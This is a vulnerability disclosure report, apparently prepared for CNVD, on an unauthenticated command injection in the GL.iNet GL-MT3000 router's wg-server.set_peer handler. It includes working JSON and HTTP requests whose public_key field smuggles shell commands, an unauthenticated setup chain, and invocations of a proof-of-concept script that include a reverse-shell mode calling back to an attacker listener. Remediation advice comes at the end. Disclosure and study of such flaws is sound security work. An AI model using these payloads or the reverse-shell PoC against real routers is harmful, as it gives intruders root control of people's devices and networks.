







# GL.iNet GL-MT3000 wg-server.set_peer Pre-Auth Command Injection to Root RCE

## Vulnerability Summary

- Discovery date: 2026-04-30
- Researcher: coconut652-7
- Vendor: GL.iNet
- Product: GL-MT3000
- Verified firmware / software version: 4.4.5
- Affected version(s): 4.4.5 confirmed; other versions not verified
- Component: `wg-server.set_peer` handling of `args.public_key`
- Reachable endpoint: `POST /cgi-bin/glc`
- Reachable method / action: `object="wg-server"`, `method="set_peer"`
- Authentication: none
- Attack vector: remote
- Impact: unauthenticated remote command execution; the included evidence also supports root execution on the tested target
- Root cause class: OS command injection through unsafe shell command construction
- Candidate CWEs: CWE-78
- Disclosure status: private
- CNVD ID: pending

## CNVD Submission-Style Summary

GL.iNet GL-MT3000 4.4.5 contains a pre-auth vulnerability in `wg-server.set_peer` reachable via `POST /cgi-bin/glc`. The vulnerable code path accepts attacker-controlled input through `args.public_key` and passes it to `system()` via a shell command equivalent to `wg set wgserver peer %s allowed-ips %s persistent-keepalive 25 2>/dev/null` without quoting or escaping. This allows an unauthenticated remote attacker to achieve command execution through the device web backend.

The issue was verified by creating a WireGuard peer through unauthenticated `wg-server` methods, injecting a marker payload into `args.public_key`, and retrieving the resulting file from `/www` over HTTP. The retrieved file contained the output of `ls /`, which is direct evidence of command execution. The report and PoC treat the execution context as root; that conclusion is also consistent with the observed ability to read and write privileged device paths.

## Attack Surface

The issue is reachable through the GL.iNet web backend dispatcher at `POST /cgi-bin/glc`. The relevant request selects `object="wg-server"` and `method="set_peer"`. The attacker-controlled field is `args.public_key`. Reaching the vulnerable `wg set` call requires a valid peer object, but the necessary setup methods `start`, `add_peer`, and `get_peer_list` are also reachable pre-auth through the same endpoint.

```http
POST /cgi-bin/glc HTTP/1.1
Host: 192.168.8.1
Content-Type: application/json
```

```json
{
  "object": "wg-server",
  "method": "set_peer",
  "args": {
    "public_key": "..."
  }
}
```

## Authentication Boundary

This issue is pre-auth. No valid session, token, or credentials are required to reach the vulnerable code path.

Verified fact: the included PoC uses only unauthenticated requests to `wg-server.start`, `wg-server.add_peer`, `wg-server.get_peer_list`, `wg-server.set_peer`, and `wg-server.remove_peer`. The included request/response captures for those methods do not show any login, SID, `Admin-Token`, or CSRF token.

## Root Cause

### 1. Vulnerable input source

The handler reads attacker-controlled data from the JSON field `args.public_key` and uses that value when constructing the backend `wg set` shell command. The same code path also consumes `client_ip`, but this report is scoped to the live-confirmed `public_key` injection path.

### 2. Vulnerable sink

Verified fact: the included reverse-engineering screenshot shows logic equivalent to the following minimal pattern:

```c
if (psk_file_access_result < 0) {
    sprintf(
        cmd_buf,
        "wg set wgserver peer %s allowed-ips %s persistent-keepalive 25 2>/dev/null",
        public_key_value,
        client_ip_value);
} else {
    sprintf(
        cmd_buf,
        "wg set wgserver peer %s preshared-key %s allowed-ips %s persistent-keepalive 25 2>/dev/null",
        public_key_value,
        presharedkey_path,
        client_ip_value);
}
system(cmd_buf);
```

The dangerous sink is `system()` on a shell command built from attacker-controlled input.

### 3. Why exploitation works

- `args.public_key` is attacker-controlled.
- The value is interpolated into a shell command string by `sprintf()` with no quoting or escaping.
- Shell metacharacters such as `;` and `#` therefore remain active in the final command.
- `system()` executes the command through the shell, so the injected command runs before the trailing `allowed-ips` and `persistent-keepalive` arguments are reached.
- The required setup chain does not block exploitation because the supporting `wg-server` methods are also reachable without authentication.

## Reverse Engineering Evidence

### Primary function / handler evidence

- file / module: `wg-server` RPC object; the exact on-disk module filename is not shown in the supplied evidence
- function name: `set_peer`
- function address: `N/A`
- function size: `N/A`

Relevant decompiled or source-level snippet:

```c
if (psk_file_access_result < 0) {
    sprintf(
        cmd_buf,
        "wg set wgserver peer %s allowed-ips %s persistent-keepalive 25 2>/dev/null",
        public_key_value,
        client_ip_value);
} else {
    sprintf(
        cmd_buf,
        "wg set wgserver peer %s preshared-key %s allowed-ips %s persistent-keepalive 25 2>/dev/null",
        public_key_value,
        presharedkey_path,
        client_ip_value);
}
system(cmd_buf);
```



### Control-flow or data-flow summary

Verified fact: the shortest verified path is `POST /cgi-bin/glc` -> `object="wg-server"` -> `method="set_peer"` -> `args.public_key` -> `sprintf("wg set wgserver peer %s ...", ...)` -> `system()`.

Inference: a preceding pre-auth setup chain of `wg-server.start` -> `wg-server.add_peer` -> `wg-server.get_peer_list` is needed so that `set_peer` operates on a valid peer record and reaches the vulnerable command path.

## Verified Exploitation Chain

### Mode A: Marker file write with command output capture

- prerequisites: network reachability to the device web interface; no authentication; ability to call the preparatory `wg-server` methods
- injected field / primitive: JSON field `args.public_key`; shell metacharacter injection
- target path / object / resource: `/www/WG_SERVER_SET_PEER_PUBLIC_KEY_PREAUTH_RCE_20260518.txt`
- verified payload:

```text
x; ls / >/www/WG_SERVER_SET_PEER_PUBLIC_KEY_PREAUTH_RCE_20260518.txt; #
```

Effect:

1. The attacker sends unauthenticated `wg-server.start`, `wg-server.add_peer`, and `wg-server.get_peer_list` requests to create and recover a valid peer object.
2. The attacker sends `wg-server.set_peer` with a crafted `public_key` value containing shell metacharacters and a redirection into `/www`.
3. The backend interpolates the malicious `public_key` into the `wg set` shell command and executes it through `system()`.
4. The attacker retrieves the written file over HTTP and observes the output of `ls /`.

## Live Exploitation Evidence

### PoC-generated payload

```text
x; echo WG_SET_PEER_RCE_<timestamp> >/www/WG_SET_PEER_RCE_<timestamp>.txt; #
```

### PoC-sent request body

```json
{
  "object": "wg-server",
  "method": "set_peer",
  "args": {
    "name": "bp_poc_20260518",
    "peer_id": 1795,
    "presharedkey_enable": false,
    "public_key": "x; ls / >/www/WG_SERVER_SET_PEER_PUBLIC_KEY_PREAUTH_RCE_20260518.txt; #",
    "client_ip": "10.0.0.4/24",
    "dns": "64.6.64.6",
    "allowed_ips": "0.0.0.0/0,::/0",
    "mtu": 1420,
    "persistent_keepalive": 25
  }
}
```

### Success condition

Verified fact: `wg-server.set_peer` returns `0 {}`, and an unauthenticated `GET /WG_SERVER_SET_PEER_PUBLIC_KEY_PREAUTH_RCE_20260518.txt` returns a text file containing directory names such as `bin`, `etc`, `root`, `tmp`, `usr`, `var`, and `www`, which is direct proof that the injected `ls /` command executed.

## Why This Is Root RCE

Verified fact: the evidence proves unauthenticated remote command execution and a file write under `/www`.

Inference: the command executes as root on the tested device. That inference is consistent with the report title, the PoC's reverse-shell mode, and the observed ability to operate on privileged system paths while invoking backend management functionality exposed by `/cgi-bin/glc`.

## Minimal HTTP Request Shape

### 1. Primary trigger request

```http
POST /cgi-bin/glc HTTP/1.1
Host: 192.168.8.1
Content-Type: application/json

{"object":"wg-server","method":"set_peer","args":{"name":"bp_poc_20260518","peer_id":1795,"presharedkey_enable":false,"public_key":"x; ls / >/www/WG_SERVER_SET_PEER_PUBLIC_KEY_PREAUTH_RCE_20260518.txt; #","client_ip":"10.0.0.4/24","dns":"64.6.64.6","allowed_ips":"0.0.0.0/0,::/0","mtu":1420,"persistent_keepalive":25}}
```

### 2. Secondary trigger request

```http
POST /cgi-bin/glc HTTP/1.1
Host: 192.168.8.1
Content-Type: application/json

{"object":"wg-server","method":"add_peer","args":{"name":"bp_poc_20260518"}}
```

## Minimal Vulnerable Flow

```text
Unauthenticated remote attacker
  -> POST /cgi-bin/glc
  -> wg-server.start / wg-server.add_peer / wg-server.get_peer_list
  -> wg-server.set_peer
  -> args.public_key
  -> sprintf("wg set wgserver peer %s ...", ...)
  -> system()
  -> command execution and file write under /www
  -> HTTP retrieval of the marker file
```












## PoC Command Examples

### Example command

```powershell
python .\glinet_mt3000_wg_server_set_peer_preauth_rce_poc_2026-04-30.py --target 192.168.8.1 --scheme http --mode marker --wait 10
```

### Token-based or alternate mode example

```powershell
python .\glinet_mt3000_wg_server_set_peer_preauth_rce_poc_2026-04-30.py --target 192.168.8.1 --scheme http --mode reverse-shell --lhost 192.168.8.100 --lport 4545 --bind 0.0.0.0 --wait 30
```

The first command verifies the confirmed marker-file path and requires `--target`. The second exercises the PoC's alternate reverse-shell mode and additionally requires `--lhost`; the supplied evidence directly confirms the marker mode, while the reverse-shell example reflects PoC capability rather than an included shell transcript.

## Reproduction Notes

- target environment: GL.iNet GL-MT3000 firmware 4.4.5
- network assumptions: attacker can reach the device web interface over HTTP; the included captures use `192.168.8.1`
- required attacker setup: none for marker mode; a reachable listener host for reverse-shell mode
- expected output: `0 {}` from `wg-server.set_peer`, followed by HTTP retrieval of a file under `/www` containing command output
- common failure cases: wrong `--scheme`; peer creation or retrieval fails; marker polling times out; reverse-shell mode depends on outbound connectivity and `/usr/bin/nc`

## Remediation Ideas

- Replace shell-based `wg` invocation with direct process execution using fixed argument vectors.
- Remove `system()` from this path and pass `public_key`, `client_ip`, and related values as discrete arguments to `execve()` or `posix_spawn()`.
- Validate `public_key` against the expected WireGuard public-key format and reject metacharacters, whitespace-delimited shell fragments, redirects, comments, and control characters.
- Enforce authentication and authorization on privileged `wg-server` methods exposed through `/cgi-bin/glc`.
- Add regression tests covering shell metacharacters in `public_key` and related peer fields.

## Files Used in This Verification Package

```text
GLINET_MT3000_WG_SERVER_SET_PEER_PUBLIC_KEY_PREAUTH_RCE_CNVD_REPORT_2026-04-30.md
glinet_mt3000_wg_server_set_peer_preauth_rce_poc_2026-04-30.py
```
